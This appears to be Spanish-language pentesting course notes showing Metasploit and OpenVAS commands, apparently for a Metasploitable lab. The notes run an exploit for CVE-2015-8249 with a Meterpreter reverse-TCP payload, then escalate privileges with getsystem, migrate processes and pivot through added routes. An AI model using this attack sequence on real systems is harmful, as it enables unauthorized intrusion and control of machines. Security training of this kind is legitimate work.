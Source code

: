 ```

$ db_import scan.xml // importar un archivo de nmap

$ db_nmap ip // algo básico

$ apt install openvas
$ openvas_connect root toor 127.0.0.1 9390
$ openvas_target_list
$ openvas_target_create demo-wb 10.2.2.3 webinario
$ openvas_task_list
$ openvas_config_list
$ openvas_task_create demo-wb task config_id targe_id
$ openvas_task_start id_task
$ openvas_task_list //mirar status para si se ejecuta y ha terminado.
$ openvas-report_list
```
Aquí buscaremos alguna vulnerabilidad si el escaneo no muestra nada.
- [Exploid db](https://www.exploit-db.com/)
```
$ search -h
$ search cve:2015-8249
$ use exploit/..../nombre_exploit
$ set payload windows/meterpreter/reverse_tcp
$ check
$ run -z // lanza el comando pero pone en background
$ session -l
$ sessions -v
$ sessions -i 1
//dentro de meterpreter
$ screenshot
$ getuid
$ getsystem
$ ps
$ arp
$ background //vuelve atras

$ search name:migrate
$ use post/.../nombre_payload
$ migrate

$ route add ip mascara session
$ route
$ use .../ar_sweep
$ db_nmap -sS -p1-10000 ip

```
Descargar [Metasploitable](https://sourceforge.net/projects/metasploitable/)

# 16/06/2021
Hoy utilizamos una serie de herramientas que son:
